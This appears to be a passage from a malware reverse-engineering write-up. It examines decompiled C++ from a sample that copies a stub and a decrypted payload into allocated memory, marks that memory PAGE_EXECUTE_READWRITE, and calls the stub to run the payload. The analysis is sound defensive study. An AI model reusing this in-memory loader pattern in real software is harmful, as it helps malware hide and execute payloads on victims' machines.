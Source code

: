 This looks like a stub/payload combination. In fact, if we check the next few lines:
```cpp
if ( checkValidPe32AndUpdateArgs(CurrentProcessImageBase, 0, &v16, 0) && checkValidPe32AndUpdateArgs(&v25[v10], 0, v6, 0) )
{
  ((void (__cdecl *)(char *, int, int, int *))VirtualProtect)(v25, dword_409048 + v10, 64, &capacity_buffer);
  ((void (__cdecl *)(char *, char *, BOOL (__stdcall *)(LPVOID, SIZE_T, DWORD), char *, char *, int, char *, int))v25)(
    &v25[v10], CurrentProcessImageBase, VirtualFree, VirtualProtect, VirtualAlloc2, UnmapViewOfFile, v25, a4);
}
```
We can sort of confirm this through the next lines where `VirtualProtect` is called.

From the Microsoft Docs (https://learn.microsoft.com/en-us/windows/win32/Memory/memory-protection-constants), we can see that the third argument `newProtect`, i.e. "64" or 0x40 is just changing the page's protection to `PAGE_EXECUTE_READWRITE` => the VirtualProtect call there  is just making the memory at `v25` executable and writable, so the code that was copied in `v25` is now ready to run.
Finally:
```cpp
((void (__cdecl *)(char *, char *, BOOL (__stdcall *)(LPVOID, SIZE_T, DWORD), char *, char *, int, char *, int))v25)(
&v25[v10], CurrentProcessImageBase, VirtualFree, VirtualProtect, VirtualAlloc2, UnmapViewOfFile, v25, a4);
```
This just executes `v25`, and the start of `v25` is what we assume to be a stub that will load the payload. The first argument is indeed the payload `&v25[v10]`.
So this seems to executing the stub, that will perform further actions and finally execute the payload, i.e. our `decryptedBytes`.

Let's make **Code 20** nicer:
```cpp
else if ( resolveImportTable(decryptedBytes, (int)CurrentProcessImageBase, (int (__stdcall *)(int))LoadLibraryA_VA,(int (__stdcall *)(int, int))GetProcessAddressVA) )
{// malware process isn't DLL but an EXE
stubSize = (char *)sub_40267A - (char *)sub_4022C0;
buffer = (char *)((int (__cdecl *)(_DWORD, int, int, int))VirtualAlloc2)(0,payloadSize + (char *)sub_40267A - (char *)sub_4022C0,4096,4);
if ( buffer )
{
  memcopy(buffer, (char *)sub_4022C0, stubSize);
  memcopy(&buffer[stubSize], decryptedBytes, payloadSize);
  HeapFreeFn((void **)&decryptedBytes);
  if ( checkValidPe32AndUpdateArgs(CurrentProcessImageBase, 0, &v16, 0) && checkValidPe32AndUpdateArgs(&buffer[stubSize], 0, v6, 0) )
  {
    ((void (__cdecl *)(char *, int, int, int *))VirtualProtect)(buffer,payloadSize + stubSize,64,&capacity_buffer);
    ((void (__cdecl *)(char *, char *, BOOL (__stdcall *)(LPVOID, SIZE_T, DWORD), char *, char *, int, char *, int))buffer)(
      &buffer[stubSize],CurrentProcessImageBase,VirtualFree,VirtualProtect,VirtualAlloc2,UnmapViewOfFile,buffer,a4);
  }
```
